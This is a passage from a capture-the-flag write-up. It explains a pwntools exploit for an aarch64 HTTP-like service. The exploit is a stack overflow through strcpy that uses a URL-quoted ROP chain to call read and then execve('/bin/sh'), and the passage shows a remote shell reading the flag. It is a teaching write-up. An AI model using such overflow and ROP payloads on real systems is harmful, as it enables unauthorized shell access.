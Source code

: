 Standard pwntools header, plus creating a symbol for our syscall gadget.

```python
shell = b'/bin/sh\0'

payload  = b''
payload += b'GET /api/isodd/'
payload += b'%\0'
payload += 40 * b'A'

urlload  = b''
urlload += p64(0)
urlload += p64(0)
urlload += p64(binary.bss())
urlload += p64(constants.SYS_execve)
urlload += p64(len(shell))
urlload += p64(binary.bss())
urlload += p64(0)
urlload += p64(constants.SYS_read)
urlload += 8 * b'A'
urlload += p64(binary.sym.syscall)

payload += urllib.parse.quote(urlload).encode()
```

The initial part of the payload should be clear from the Analysis section above.

The payload should be URL quoted (`%nn%nn%nn`...) so that `strcpy` does not prematurely terminate.

Starting form the bottom, the `8 * b'A'` and `syscall` will land in `x29` and `x30` curtesy of the end from `main` with `sp` pointing to `8 * b'A'` on the stack with our _read_ payload just above it.  The `syscall` gadget (see assembly above), will load the next four stack lines going _up_, into `x8`, `x0`, `x1`, `x2`, and then execute the syscall to read from `stdin` (`0`) our 8-byte payload (`/bin/sh\0`), into the BSS (`binary.bss()`), after the syscall `sp` will be pointing at just below our next set of four parameters, when `ret` is executed, `syscall` is executed again since `x30` was never updated (this isn't x86_64), and the cycle continues, but this time with `execve` executing `/bin/sh\0` stored in the BSS.

```python
payload += (0x3ff - len(payload)) * b'A'

p.send(payload)
p.send(shell)
p.interactive()
```

> The padding at the end of the payload is to fill up the first read so that our second `send` does not land in the wrong `read`.

Finally we just need to send the payload, that will wait for our input (`/bin/sh\0`), then continue on with the `execve`.

Output:

```bash
# ./exploit.py REMOTE=1
[*] '/pwd/datajerk/dc2021q/mra/mra'
    Arch:     aarch64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to mra.challenges.ooo on port 8000: Done
[*] Switching to interactive mode
$ cat flag
OOO{the_0rder_0f_0verflow_is_0dd}
```

